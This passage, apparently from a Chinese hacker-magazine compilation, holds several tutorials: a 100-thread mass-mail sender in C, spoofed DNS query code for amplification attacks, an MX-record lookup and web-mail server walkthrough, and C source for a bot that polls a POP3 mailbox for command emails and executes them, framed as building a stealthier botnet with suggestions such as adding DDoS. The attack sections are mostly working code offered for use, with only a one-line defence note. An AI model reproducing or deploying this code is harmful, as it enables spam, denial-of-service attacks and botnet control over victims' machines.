正文是发送用户发给接收用户报文的内容。MIME 定义了两种编码方式：Base64 与 QP（Quote-Printable）。QP 的规则是对资料中的 7 位数据无需重复编码，仅将 8 位的数据转换成 7 位即可。QP 编码适用于 ASCII 码的文字内容，例如中文文件；而 Base64 的编码规则是将整个文件重新编码成 7 位，通常用于传送二进制文件。RFC822 指定为 NVT ASCII 文字行。

2）用 SMTP 收发邮件的过程：建立 TCP 连接（服务端口号 25），传送邮件，释放连接。

- HELO：发送方建立起与接收方 SMTP 的通信。
- MAIL FROM：给出发送方的标识，接收方必须返回一个对该命令的确认。
- RCPT TO：给出标识报文的目的端，接收方仍必须给出对该命令的一个确认。
- DATA：发送方 SMTP 发出该命令，提醒接收方一个报文就要到达了。之后发送方逐行发送数据，直到发送方发出特殊控制字符序列“.”表示报文结束。
- QUIT：服务器使用 QUIT 命令终止通信过程。

#### 代码实现

考虑文章的篇幅问题，本文的实现仅为演示代码，去掉了错误处理以及性能方面的考虑。具体成熟软件可参考 smartkid-起点 v1.0 以上版本，在网站 http://www.dream2fly.net 可以下载到。

```c
// 首先在 main 函数里启动发送线程
#include <stdio.h>
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")
const char* g_pszMailBody = "From: ...\r\n"
"To: ...\r\n"
"Subject: swords SendMail 测试\r\n\r\n";
DWORD WINAPI SendMail(LPVOID param);
```

```c
int main(int argc, char *argv[])
{
    DWORD dWid;
    HANDLE hThread[100];
    int j;
    for (j=0; j<100; j++) {
        // 启动100个线程
        hThread[j] = CreateThread(NULL, 0, SendMail, NULL, 0, &dWid);
        CloseHandle(hThread[j]);
        Sleep(100);
    }
    WaitForMultipleObjects(100, hThread, TRUE, 100);
    return 0;
}

DWORD WINAPI SendMail(LPVOID param)
{
    WSADATA wsa;
    struct hostent *pHostent = NULL;
    SOCKET server = INVALID_SOCKET;
    struct sockaddr_in stServerAddr;
    WSAStartup(MAKEWORD(2,2), &wsa);
    server = socket(AF_INET, SOCK_STREAM, 0);
    pHostent = gethostbyname("smtp.163.com");
    ...
    stServerAddr.sin_port = htons(25);
    connect(server, (struct sockaddr*)&stServerAddr, sizeof(stServerAddr));
    send(server, "HELO HackerHost\r\n", ...);
    send(server, "AUTH LOGIN\r\n", ...);
    send(server, "...base64...\r\n", ...);
    send(server, "MAIL FROM: <swords@163.com>\r\n", ...);
    send(server, "RCPT TO: <swords@qq.com>\r\n", ...);
    send(server, "DATA\r\n", ...);
    send(server, g_pszMailBody, ...);
    send(server, "QUIT\r\n", ...);
    closesocket(server);
    WSACleanup();
}
```

至此，邮件群发器的基本发送框架就完成了。

【本文涉及的代码（程序），请见随书光盘】

## DNS放大攻击原理、实现与防御


在日常工作中，我们常见的涉及域名（DNS）管理方面的黑客攻击主要包括以下 3 种：

- 域名劫持：通过采用黑客手段控制域名管理密码，将该域名的 NS 记录指向黑客可以控制的 DNS 服务器，然后通过在该 DNS 服务器上添加相应域名记录，从而使网民访问该域名时，进入黑客所指定的内容。
- 域名欺骗（缓存投毒）：通过采用黑客手段控制 DNS 缓存服务器，然后将错误的域名记录存入缓存中，从而使所有使用该缓存服务器的用户得到错误的 DNS 解析结果。DNS 协议由于其自身的弱点——使用 16 位通信 ID，使得黑客可以伪造 DNS 查询响应报文，导致黑客可以很容易地实施此种攻击。
- DNS 放大攻击（DNS amplification attacks）：通过向一系列无辜的第三方 DNS 服务器发送大量的查询请求（小的和欺骗性的询问信息），这些查询请求数据包中的源 IP 地址为被攻击主机的 IP 地址，DNS 服务器将大量的查询结果发送给被攻击主机，使被攻击主机所在的网络拥塞或拒绝服务。

对于 DNS 的攻击，目前主要有 3 种利用方法：RD 递归域名请求服务、AXFR 区域转移请求和 DDNS 循环查询。本文主要介绍前两种方法的编程实现。

## DNS报文结构

### 1）DNS数据报头

```c
typedef struct dns
{
  unsigned short id;
  // 标识，通过它客户端可以将DNS的请求与应答相匹配
  unsigned short flags;
  // 标志: [QR|opcode|AA|TC|RD|RA|zero|rcode]
  unsigned short quests;   // 查询问题数
  unsigned short answers;  // 回答问题数
  unsigned short author;   // 授权资源记录数
  unsigned short addition; // 额外资源记录数
} DNS;
```

在 flags 中，QR 判断结果为 0 则查询，为 1 则响应报文；opcode 用于区别查询类型；AA 用于判断是否为授权回答；TC 用于判断是否可截断；RD 用于判断是否是期望递归查询；RA 用于判断是否为可用递归；zero 则必须为 0；rcode 为返回码字段。

### 2）DNS查询数据报

```c
typedef struct query
{
  unsigned char *name;
  // 查询的域名，计数字节的值必须为0到63之间的数
  unsigned short type;
  unsigned short classes;
  // 查询类，通常是1，即互联网地址
} QUERY;
```

### 3）DNS响应数据报

```c
typedef struct response
{
  unsigned char *name;      // 查询的域名
  unsigned short type;      // 查询类型
  unsigned short classes;   // 类型码
  unsigned int ttl;         // 生存时间
  unsigned short length;    // 资源数据长度
  unsigned int addr;        // 资源数据
} RESPONSE;
```

#### 构造查询数据包

```c
DNS stDns;
QUERY stQuery;
RESPONSE stResponse;
IPHEADER stIpHeader;

stDns.id = 0x2007;
stDns.flags = htons(0x0100);   // 0表示查询报文
stDns.quests = htons(1);       // 查询问题数为1
stDns.answers = htons(0);      // 回答问题数为0
stDns.author = htons(0);       // 授权资源记录数为0
stDns.addition = htons(0);     // 额外资源记录数为0

// 其中的域名3www9dream2fly3net0为域名www.dream2fly.net的表示
stQuery.name = (unsigned char *)malloc(strlen("3www9dream2fly3net0") * sizeof(unsigned char));
memcpy(stQuery.name, "3www9dream2fly3net0", strlen("3www9dream2fly3net0"));
stQuery.type = 1;
// 1标识查询IP地址，如果为252则为区域转移查询，会放大更多流量
stQuery.classes = 1;
// 通常是1，即互联网地址

stIpHeader.sourceip = AttackIp;
// AttackIp伪造为攻击者的IP
stIpHeader.destip = DnsServerIp;
// DnsServerIp为DNS服务器IP
```

通过以上的代码伪造 DNS 数据包，攻击者就可以向 DNS 服务器发送域名查询报文了，而 DNS 服务器返回的应答报文则会发送给被攻击主机。一般这些响应报文比攻击者发送的查询报文要大，从而实现放大攻击的目的，同时还可以隐藏攻击者的攻击身份。至于发送部分，可以用 WinPcap 库来实现，本文不再赘述。

至于 DNS 攻击的防范，方法就简单多了，我们只需直接过滤掉 TCP 和 UDP 源端口为 53 的数据包即可。

## 再谈邮件服务器的编写

文/园林 h0kien


偶然再次翻开《黑客防线》杂志 2006 年第 7 期，发现里面有一篇介绍邮件服务器编写的文章《邮件服务器编程DIY》。看了之后，整体感觉作者是花了心思在写的，但因为作者的模型比较简单，以至于漏掉了编写邮件服务器最为关键的难点，也是极为重要的一点。这一点不解决，邮件服务器是不可能投向实际应用的。至于这一点是什么，容我先卖个关子，下面我会细细道来的。

## 问题的提出

为了更好地阐述邮件服务器的运作流程，大家不妨先看一下邮箱 xidiancom@tom.com 的运行流程。对于这个邮箱，我们如果想给它发封邮件，无非是在目的邮箱中填入这个地址，然后发送即可，而对于邮件服务器，它又会如何运作，从而使这封邮件准确到达目的地呢？

学过网络编程的朋友也许会认为，只要获得邮件服务器的 IP 地址，然后连接发送即可。不错，思路方向是对的，但太过于笼统。大家不妨想一下，这个 IP 地址怎样才能获得？有些朋友会说对“@”后面的域名进行解析即可。对于这种回答，看看下面的实验之后我们再做结论。

在命令提示符下输入“nslookup tom.com”，回车后得到如下结果。

```text
Name: tom.com.domain
Address: 125.76.238.57
```

由此可知，tom.com 的 IP 为 125.76.238.57。再在命令提示符下输入“telnet 125.76.238.57 25”，回车后没有任何显示；由此我们可以认为 125.76.238.57 并没有开放 25 端口。既然 tom.com 提供邮件服务，为什么没有开 25 端口呢？我百思不得其解。百度一下，开了近百个网页，机器中毒瘫痪了一次还是毫无结果！会不会是只对 SMTP.tom.com 进行了解析呢？

在命令提示符下输入“telnet SMTP.tom.com 25”，回车后有反应了，结果如下。

```text
220 cnapg32.tom.com antispam proxy server is ready
```

OK，好像就是这样呀，哈哈（高兴太早了）！接下来我们再试试 163.com，输入“telnet SMTP.163.com 25”，结果如图 1 所示。怎么回事？不转发！到网上又转了一圈，知道了 ESMTP，说是为了防止垃圾邮件，需要验证。验证？我记得发邮件的时候我没有输入密码呀！

```text
（终端输出截图）
```


哎，暂时把这事搁置了……一个月后，因为需要，申请了免费域名，进入后台管理，如图 2 所示。看到没有，有个邮件记录！顿时豁然开朗！原来，对于邮件服务器 IP，并不是想当然的“@”后面的域名的 IP，也不是 SMTP 对应的 IP，而是邮件记录（MX）指向的 IP！


我们再来做个实验。在命令提示符下分别输入一下命令“nslookup”、“set type=mx”和“163.com”，回车后得到如图 3 所示的结果。

```text
（nslookup MX 查询输出截图）
```


这里有个 mail exchanger 就是邮件记录的指向，而绑定这个记录的 IP 有多个。以其中的一个 Telnet 一下，后发现，对于“mail from”是接受的，没有出现上面的拒绝；而“rcpt to”后面的用户只要是本地的，即 163.com 的就会被接受，非本地用户拒绝转发。现在，我们的思路清晰了，下面将其总结一下。对于用邮件客户端发邮件，总是遵守下面的规则：

邮件客户端连接（C）-> 邮件服务器（S1）连接 -> 目的邮件服务器（S2）

即邮件客户端连接邮件服务器，主动申请发邮件，邮件服务器接受申请，连接目的邮件服务器，然后依据 SMTP 协议完成最终的投递。此时，邮件服务器担当的角色是转发服务，即查询目的服务器的 MX 记录，从而连接完成投递。因而，只要我们能够获得 MX 记录，就可以绕过邮件服务器（S1）的中转，直接与目的服务器连接，从而进行直接投递！这也是一些速邮软件和垃圾邮件所采用的技术。因此，我们现在的关键是怎样获得这个 MX 记录，这也是我开篇所说的关键点！

## MX记录获取编写

要获取 MX 记录，首先要对 DNS 协议有所了解。图 4 是 DNS 报文的总体结构。报文由 12 字节长的首部和 4 个长度可变的字段组成。标识字段由客户程序设置，并由服务器返回结果，客户程序通过它来确定响应与查询是否匹配。“查询问题”部分中每个问题的格式如图 5 所示。其中需要注意的是如何存储域名，图 6 显示了如何存储域名 gemini.tuc.noao.edu 的方法。

上面我们简要介绍了 DNS 的一些基本知识，如果还有什么疑问，大家可以看一下《TCP/IP详解》这本书。


接下来我以一个网友写的代码进行详细分析。开始之前，我们先来认识几个重要的结构。

### 1）DNS报头结构

```c
typedef struct dns_hdr
{
    u_short dns_id;         /* 客户请求ID标志 */
    u_short dns_flags;      /* 标志 */
    u_short dns_q_count;    /* 问题数 */
    u_short dns_rr_count;   /* 资源记录数 */
    u_short dns_auth_count; /* 授权资源记录数 */
    u_short dns_add_count;  /* 额外资源记录数 */
} DNS_HDR, *PDNS_HDR, FAR *LPDNS_HDR;
```

##### 2）资源记录格式结构

```c
typedef struct dns_rr_hdr
{
    u_short rr_type;      /* RR type code (e.g. A, MX, NS, etc.) */
    u_short rr_class;     /* RR class code (IN for internet) */
    u_long  rr_ttl;       /* Time-to-live for resource */
    u_short rr_rdlength;  /* length of RDATA field (in octets) */
    u_short rr_rdata;     /* fieldname used as a ptr */
} DNS_RR_HDR, *PDNS_RR_HDR, FAR *LPDNS_RR_HDR;
```

### 3）MX资源数据结构

```c
typedef struct dns_rdata_mx
{
    u_short mx_pref;     /* Preference value */
    u_short mx_xchange;  /* QNAME (field used as a ptr) */
} DNS_RDATA_MX, *PDNS_RDATA_MX, FAR *LPDNS_RDATA_MX;
```

下面我给出代码的关键部分，重要部分会给予解释。

```c
char* GetMX(char *pszQuery, char *pszServer, int minlevel)
{
    WSADATA stWSAData;
    WORD wWSAVersion = 0x0202;
    SOCKET hSocket;
    SOCKADDR_IN stSockAddr;
    // 套接字结构
    int nAddrLen = sizeof(SOCKADDR_IN);
    HOSTENT *pHostEnt;
    ...
}
```

## 网络协议类

```cpp
char achBufOut[BUFSIZE] = {0};
// 发送数据报缓冲区
char achBufIn[BUFSIZE] = {0};
// 接收数据报缓冲区
int nQueryLen = 0;
int nRC;
char *p, *np, name[128], *eom;
int count, j, i, n;

nRC = WSAStartup(wWSAVersion, &stWSAData);
if (nRC)
{
    return NULL;
}
memset(&stSockAddr, ASCII_NULL, sizeof(stSockAddr));

stSockAddr.sin_family = AF_INET;
stSockAddr.sin_port = htons(53);
// DNS 服务器端口为 53
stSockAddr.sin_addr.s_addr = inet_addr(pszServer);
if (stSockAddr.sin_addr.s_addr == INADDR_NONE)
{
    pHostEnt = gethostbyname(pszServer);
    if (pHostEnt)
    {
        stSockAddr.sin_addr.s_addr = *((u_long *)pHostEnt->h_addr_list[0]);
    }
    else
    {
        WSACleanup();
        return NULL;
    }
}

/** Get a DGRAM socket */
hSocket = socket(AF_INET, SOCK_DGRAM, 0);
if (hSocket == INVALID_SOCKET)
{
    WSACleanup();
    return NULL;
}

/** DNS 请求 */
pDNShdr = (PDNS_HDR)&(achBufOut[0]);
// 取数据首字节的地址赋予 DNS_HDR 结构，开始 DNS 查询数据报构造
pDNShdr->dns_id = htons(0xDEAD);
pDNShdr->dns_flags = htons(DNS_FLAG_RD);
// do recurse DNS_FLAG_RD=0x100，二进制为 0x100000000，即递归查询
pDNShdr->dns_q_count = htons(1);
// 查询问题数为 1 个
pDNShdr->dns_rr_count = 0;   // 查询资源数为 0 个
pDNShdr->dns_auth_count = 0; // 查询资源数为 0 个
pDNShdr->dns_add_count = 0;  // 查询资源数为 0 个

nQueryLen = PutQName(pszQuery, &(achBufOut[DNS_HDR_LEN]));
// 函数 PutQName 为域名的特殊结构的构造，查询问题部分包括特殊域名部分
nQueryLen += DNS_HDR_LEN;
achBufOut[nQueryLen++] = 0;
achBufOut[nQueryLen++] = 0;

achBufOut[nQueryLen] = DNS_RRTYPE_MX;
// MX 记录查询
achBufOut[nQueryLen + 1] = 0;
// MX 记录查询为 2 字节，所以不足部分用 0 填充，下面类似
achBufOut[nQueryLen + 2] = DNS_RRCLASS_IN;
// DNS_RRCLASS_IN=1 表示互联网地址
achBufOut[nQueryLen + 3] = 0;

nQueryLen += 4;

/** 发送 DNS 请求 */
nRC = sendto(hSocket, achBufOut, nQueryLen, 0,
             (LPSOCKADDR)&stSockAddr,
             sizeof(SOCKADDR_IN));
if (nRC == SOCKET_ERROR)
{
    closesocket(hSocket);
    WSACleanup();
    return NULL;
}

/** 接收数据 */
nRC = recvfrom(hSocket, achBufIn, BUFSIZE, 0,
               (LPSOCKADDR)&stSockAddr, &nAddrLen);
if (nRC == SOCKET_ERROR)
{
    int nWSAErr = WSAGetLastError();
    if (nWSAErr != WSAETIMEDOUT)
    {
        closesocket(hSocket);
        WSACleanup();
        return NULL;
    }
    else
    {
        closesocket(hSocket);
        WSACleanup();
        return NULL;
    }
}
// 以下开始对接收的缓冲区进行处理
else
{
    pDNShdr = (PDNS_HDR)&(achBufIn[0]);
    p = (char *)&pDNShdr[0];
    p += 12; // 跳过 12 字节的 DNS 报文头部
    count = (int)*p;
    // 开始对应答进行解析
    for (i = 0; i < ntohs(pDNShdr->dns_q_count); i++)
    {
        np = name;
        eom = (char *)pDNShdr + nRC;
        if ((n = dn_expand((char *)pDNShdr, eom, p, name, 127)) < 0)
        {
            return NULL;
        }
        p += n + QFIXEDSZ;
    }

    char *mxstr; // 存放 MX 的资料
    mxstr = (char *)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 4096);
    sprintf(mxstr, "");

    for (i = 0; i < ntohs(pDNShdr->dns_rr_count); i++)
    {
        if ((n = dn_expand((char *)pDNShdr, eom, p, name, 127)) < 0)
        {
            return NULL;
        }
        p += n;
        j = _getshort(p); // 类型
        p += 2;
        j = _getshort(p); // 类
        p += 2;
        j = _getlong(p); // TTL
        p += 4;
        j = _getshort(p); // RDLENGTH
        p += 2;
        j = _getshort(p); // N??
        p += 2;

        // 这是 MX 记录
        if ((n = dn_expand((char *)pDNShdr, eom, p, name, 127)) < 0) {}

        if (i == 0)
        {
            sprintf(mxstr, "%s %d", name, j);
        }
        else
        {
            sprintf(mxstr, "%s\n%s %d", mxstr, name, j);
        }
        p += n;
    }
    return mxstr;
}

closesocket(hSocket);
WSACleanup();
return NULL;
```

整个代码比较长，如果还有不清楚的地方，大家可以看我随文提供的源代码。同时，也对代码作者的无私奉献表示感谢！

我们只要能够获取 MX 记录，整个邮件服务器就算是完成了一半。至于其他方面的编写，《黑客防线》2006 年第 7 期《邮件服务器编程 DIY》写得很清楚，这里我就不再废话了。下面主要介绍一下网页版邮件服务器是如何编写的。

## 网页版邮件服务器的编写

编写网页版邮件服务器的最大难题是如何使用脚本操纵邮件服务器的收发。其实大家不必担心，对于 ASP 脚本，微软已经为其扩展提供了很大的空间——ASP 组件技术，这也许就是为什么 ASP 这么流行的原因吧。

如果对编写 ASP 组件还有什么不懂的地方，网上的资料很多，大家可以自己查阅。这里就不多说了。下面给出编写网页版邮件服务器的基本思路。

首先，建立一个 MX 数据库，这样可以减少时间。

其次，编写一个组件，这个组件包括 MX 记录查询函数、数据库访问函数等一些能够直接操纵计算机的函数封装。

最后，在 ASP 脚本当中调用这个组件，进行操作。调用格式为：

```vb
Set myzujian = Server.CreateObject("组件名")
Myzujian.function
```

为了更容易理解，我写了一段伪代码供大家参考。假设 AspMail.MailSrv 是一个组件，它封装了如下几个函数。

- GetDesMailAddress —— 获取目的邮箱
- GetContent —— 获取发送内容
- IsNeedUpdateMX —— 判断是否需要更新 MX 数据库；即查询 MX 数据库，看是否存在目的邮箱的 MX，如果不存在，就调用 UpdateMX 发送 DNS 数据包，获得 MX 后再存入数据库。
- GetDataBaseMX —— 从 MX 数据库中查询 MX
- SendMail —— 发送邮件

实现代码如下。

```vb
<%
Set myzujian = Server.CreateObject("AspMail.MailSrv")
DesMailAddress = myzujian.GetDesMailAddress()
Content = myzujian.GetContent()
If myzujian.IsNeedUpdateMX() Then
    Myzujian.UpdateMX()
End If
Myzujian.GetDataBaseMX()
Myzujian.SendMail()
Set myzujian = Nothing
%>
```

这样处理后，网页版邮件服务器就基本完成了。

## 尾记

本文抛弃了编写的细节，对最为重要和存在疑问的部分进行了分析，旨在给想要编写邮件服务器却又不知所措的人一些帮助。毕竟，网上这方面资料真是少之又少！如果大家对 SMTP、ESMTP、DNS 协议还有什么不清楚的地方，强烈建议看一下《TCP/IP 详解》，里面写得非常详细。最后，祝大家学习愉快！^^

【本文涉及的代码（程序），请见随书光盘】

### 基于 SMTP/POP3 协议的新型僵尸网络发现

文／图 天涯浪人


随着网络的普及，互联网上的各种攻击方法层出不穷，像 DDoS 攻击、传播垃圾邮件等，这些攻击虽然方法不同，但都有一个共同的地方，就是这样的攻击平台基本上是一样的——僵尸网络。它是攻击者手中的一个攻击平台，通过僵尸网络实施这些攻击行为，简化了攻击步骤，提高了攻击效率，而且更易于隐藏身份。僵尸网络的控制者可以从攻击中获得经济利益，这是僵尸网络日益发展的重要原动力。

### IRC 僵尸网络原理

僵尸网络是指采用一种或多种传播手段，对大量主机感染 bot 程序（僵尸程序），从而在控制端和被感染主机之间形成的一个可一对多控制的网络。网络上现在常见的网络僵尸程序大多数是基于 IRC 聊天协议的 IRCBOT，基于 IRC 的僵尸网络原理如图 1 所示。


图1

攻击者在公共或者秘密设置的 IRC 聊天服务器中，开辟私有聊天频道作为控制频道，僵尸程序中预先包含了这些频道信息。当僵尸计算机运行时，僵尸程序会自动寻找和连接这些控制频道，收取频道中的消息。攻击者则通过控制频道向所有连线的僵尸程序发送指令。

## SMTP/POP3 协议分析以及利用

接下来我们看一下邮件收发的原理，如图 2 所示。个人用户在编辑完邮件内容后，连接 SMTP 服务器 25 端口，向服务器发送编辑好的数据内容，服务器会自动把信件投送到用户指定的邮箱地址。在要接收邮件时，连接到 POP3 服务器 110 端口，输入账号密码登录邮箱后，接收邮件内容。当然，上述过程在登录网站收发信时是看不到的。信息的接收和发送在一般人看来是不同步的，因为大多数人都使用 IE 或者别的邮件收发工具，即使自己给自己发一封邮件，也不会马上显示出收到新的邮件。


图2

由于整个邮件系统给了使用者一个完整的信息发送和接收过程，所以利用这个过程就可以进行我们自己的数据传输。这个过程要经过服务器的中转，而且连接中都有一个登录过程，给人的感觉是数据传输中的延时非常大。在实际测试时（测试时使用的 163 的免费邮箱，发信收信都在同一个邮箱），分别编写两个程序：一个先登录到 POP3 服务器查看有没有新的邮件，若没有则不停地登录并查看；另一个登录到 SMTP 服务器发信。在这个过程中，除了登录服务器所消耗的时间外，邮件的发送和接收几乎和一般的 Socket 连接传送数据是一样的，这就为我们打造僵尸网络提供了可能。

下面看一下我们要打造的僵尸网络的原理，如图 3 所示。整个网络构成原理很简单，主要部分是 Server 端，也就是要植入电脑的 BOT 程序。BOT 程序运行后，连接到程序内置的 POP3 服务器地址，查看是否有带有特定标记的邮件；若没有，则过一段时间后，BOT 程序再次登录查看；若收到带有特定标识的邮件（此时攻击者发出了带有攻击命令的邮件），则分析出里面的命令并执行。对于僵尸网络的控制者，当要进行攻击活动时，只需要登录某个 SMTP 服务器，向指定的邮箱里发送一封带有命令的邮件就可以了。所有对 BOT 电脑的控制，都是通过发送邮件来完成的。


图3

当然，上面提到地址可以内置多个，像有的 IRCBOT 一样，防止一个地址被封，还可以连接别的，增加了僵尸网络的健壮性，提高了 BOT 们的寿命，而且还可以让 BOT 电脑以发送邮件的形式再返回命令执行的结果。

利用邮件系统构造的僵尸网络的优点有 3 个：一是隐蔽性，因为没有使用传统的 IRC 协议，现在通用的用于检测 IRCBOT 僵尸网络行为特征的方法几乎不可能查出僵尸电脑的存在；二是稳定性，由于邮件系统的重要性，所以不能使用关闭僵尸网络的控制服务器或是将其使用的域名取消的方法来解散僵尸网络；三是安全性，由于邮件的发送和接收并不一定要在同一邮件服务器上进行，携带控制命令的邮件可以从其他的服务器上发送，控制者不必直接连接到控制命令服务器上发送命令邮件。这样，其他的 SMTP 服务器也就在无形之中充当了跳板。

## 邮件网络僵尸的实现过程

上面只是简单地介绍了一下僵尸网络的工作原理，实际编程并不难。首先在这里简要介绍一下 POP3 以及 SMTP 的协议原始命令码。

SMTP 命令码：

- HELO：向服务器标识用户身份；
- MAIL：初始化邮件传输（mail from）；
- RCPT：标识单个的邮件接收人，在 mail 命令后面可有多个 rcpt to；
- DATA：在单个或多个 RCPT 命令后，表示所有的邮件接收人已标识，并初始化数据传输，以“.”结束；
- VRFY：用于验证指定的用户/邮箱是否存在；
- EXPN：验证给定的邮箱列表是否存在；
- HELP：查询服务器支持什么命令；
- NOOP：无操作，服务器应响应 OK；
- QUIT：结束会话；
- RSET：重置会话，当前传输被取消。

POP3 命令码：

- USER：参数为 username；
- PASS：参数为 password；
- APOP：参数为 Name 和 Digest；
- STAT：请求服务器返回关于邮箱的统计资料；
- UIDL：参数为 [Msg#]，返回邮件唯一标识；
- LIST：参数为 [Msg#]，返回邮件数量和每个邮件大小；
- RETR：参数为 [Msg#]，返回邮件全部文本；
- DELE：参数为 [Msg#]，标记邮件删除；
- RSET：撤销删除标记；
- TOP：参数为 [Msg#]，返回邮件前 n 行内容；
- NOOP：服务器返回肯定响应。

用 NC 连接到 POP3.163.com 的过程截图如图 4 所示。现在各大免费/收费邮箱提供商，为了限制非本系统的正式用户利用邮件服务器散发垃圾邮件，开设了安全认证服务，国内大都使用的是 ESMTP 方式。在 ESMTP 服务器上，发送邮件需要对用户的身份进行验证。与传统的 SMTP 方式相比，在初始化邮件传输 MAIL 命令之前，多了一道用户身份的验证手续，增加了一条 AUTH LOGIN 命令，提示服务器要进行验证了，需要用户输入 Base64 编码的用户名和密码。验证之后的邮件发送过程与传统的 SMTP 方式一致。


图4

有了上面的分析过程，再加上邮件发送和接收的命令码也知道，我们只要一步一步地按照协议的过程和格式来发送网络数据就可以了。有过网络编程经验的应该都能容易实现，下面我们就来编程实现它。本文使用 163 的免费邮箱进行测试。

```cpp
int main(int argc, char *argv[])
{
    WSADATA wsa;
    WSAStartup(MAKEWORD(2, 2), &wsa);
    struct hostent *pHostent = NULL;
    SOCKET s = INVALID_SOCKET;
    int ret = 0;
    char temp[1024] = {0};
    char Buffer[TEMPSIZE] = {0};
    char EmailData[TEMPSIZE * 10] = {0};
    char From[TEMPSIZE] = {0};
    char Data[TEMPSIZE] = {0};
    // 定义缓冲区
    char user[20] = "USERNAME";
    // 邮箱用户名
    char pass[16] = "PASSWORD";
    // 邮箱登录密码
    char *Pop3Host = "pop3.163.com";
    // ...
    while (1)
    {
        Sleep(9000);
        s = socket(AF_INET, SOCK_STREAM, 0);
        struct sockaddr_in ServerAddr;
        pHostent = gethostbyname(Pop3Host);
        ServerAddr.sin_family = AF_INET;
        ServerAddr.sin_port = htons(110);
        ZeroMemory(Buffer, sizeof(Buffer));
        ret = connect(s, (struct sockaddr *)&ServerAddr, sizeof(ServerAddr));
        // ...
    }
}
```

```cpp
if (ret == SOCKET_ERROR)
{
    printf("Connect Mail Server Failed..\n");
    goto end;
}

printf("Connect to %s.\n", inet_ntoa(ServerAddr.sin_addr));
ret = recv(s, Buffer, sizeof(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Receive Data From Mail Server Failure..\n");
    goto end;
}
else
{
    Buffer[ret] = '\0';
    printf("1:%s\n", Buffer);
}

ZeroMemory(Buffer, sizeof(Buffer));
sprintf(Buffer, "USER %s\r\n", user);
ret = send(s, Buffer, strlen(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Send USER to Mail Failure..\n");
    goto end;
}

ZeroMemory(Buffer, sizeof(Buffer));
ret = recv(s, Buffer, sizeof(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Receive Data From Mail Server Failure..\n");
    goto end;
}

sprintf(Buffer, "PASS %s\r\n", pass);
ret = send(s, Buffer, strlen(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    printf("Send PASS to Mail Failure..\n");
    goto end;
}

// 登录到 POP3 服务器
ZeroMemory(Buffer, sizeof(Buffer));
ret = recv(s, Buffer, sizeof(Buffer), 0);
if (ret == SOCKET_ERROR)
{
    // ...
}
```

```c
printf("Receive Data From Mail Server Failure...\n");
}else
{
    // 下面判断有没有收到邮件，这里用了偷懒的方法，邮箱为空时返回字符串长度是一定的
    printf("0:%s \r\n",Buffer);
    printf("1:%d\r\n",strlen(Buffer));
    memcpy(temp,
        strstr(Buffer,"+") + strlen("+"),
        (strstr(Buffer,"%") - (strstr(Buffer,"+") + strlen("+")))
    );
}
if(strlen(Buffer)==30)
{
    printf("2:%s \r\n",temp);
    printf("No Email!\r\n");
    // 邮箱为空
    Sleep(100);
    ret = send(s, "QUIT\r\n", strlen("QUIT\r\n"), 0);
    // 登出后休息一下再来看
    if (ret == SOCKET_ERROR)
    {
        printf("Send Quit to Mail Failure...\n");
        goto End;
    }else
    {
        printf("Quit\n");
    }
    closesocket(s);
    WSACleanup();
}else
{
    // 到这里就表示收到邮件了，先用TOP看下部件头，是不是命令邮件，不是命令邮件BOT不作处理
    ZeroMemory(Buffer, sizeof(Buffer));
    send(s,"TOP 1 3\r\n",strlen("TOP 1 3\r\n"), 0);
    Sleep(100);
    recv(s,EmailData, sizeof(EmailData),0);
    printf("%s\r\n",EmailData);
    // 这里先看下是谁发的邮件，BOT可以只执行固定邮箱发送的命令邮件
    memcpy(From,
        strstr(EmailData,"From: ") + strlen("From: "),
        (strstr(EmailData,"To: ") - (strstr(EmailData,"From: ") + strlen("From: ")))
    );
    // 得到“收信人：”后面的内容
    if(!strcmp(From,"client\r\n")==0)
    {
        // 这里把发信人设成client了，当然，可以随便设成什么
        Sleep(1000);
    }
}

ZeroMemory(Buffer, sizeof(Buffer));
send(s,"DELE 1\r\n",strlen("DELE 1\r\n"), 0);
recv(s, Buffer, sizeof(Buffer), 0);
send(s,"QUIT\r\n",strlen("QUIT\r\n"), 0);
// 删除后就登出
}
else
{
    // 这里为了获取邮件内容，简单加了一个标签
    memcpy(Data,
        strstr(EmailData,"SET:\r\n") + strlen("SET:\r\n"),
        (strstr(EmailData,"\r\n.\r\n") - (strstr(EmailData,"SET:\r\n") + strlen("SET:\r\n")))
    );
    // 看上面的协议就知道，邮件是以\r\n.\r\n结束的。
    printf("get Email from client\r\n");
    printf("\r\n=Data=\r\n%s\r\n",Data);
    char *cmd = NULL;

    cmd = GetCommend(Data);  // 这里调用了一个用于得到命令的函数。
    printf("cmd:%s\r\n",cmd);
    if(strcmp(cmd,"pslist")==0)
    {
        // 这里判断是什么命令，函数可以自己写，比如弄个DDOS
        pslist();
        // 执行命令，测试时使用的是列系统进程
        send(s,"QUIT\r\n",strlen("QUIT\r\n"), 0);
        // 执行完了就登出
    }
}
end:
closesocket(s);
WSACleanup();
return 0;
}
```

上面用于得到命令的函数实现如下：

```c
char *GetCommend(char *Buffer)
{
    char Cmd[TEMPSIZE] = {0};
    memcpy(Cmd,
        strstr(Buffer,"@") + strlen("@"),
        (strstr(Buffer,"\r\n") - (strstr(Buffer,"@") + strlen("@")))
    );
    return &Cmd[0];
}
```

到这里，一个BOT就打造出来了，是不是很简单呢？上面有关控制端如何发信的我没有写出来，其实看了上面的代码执行过程，那个命令邮件的格式自己也就知道了，SMTP命令码上面也提供，和POP3收信一样，发信也是一步一步地按协议的过程来写就行了，大家自己可以试试，以后有机会我再给大家介绍。

【本文涉及的代码（程序），请见随书光盘】

### IRCBOT：由协议分析到编程实现


文／图 天涯浪人

相信大家经常听说哪台主机被DDOS了，某个网站受到攻击了，这些大规模的攻击多半是由IRCBOT僵尸网络发动的。什么是IRC？IRC是英文Internet Relay Chat的缩写，是一种以前在世界上，尤其是在国外非常流行的聊天方式之一，中文名称叫做网络中继聊天。简单地说，就是使用特定的客户端软件连接到IRC服务器，然后以客户端→服务器→客户端的方式，使得用户能够交换信息。

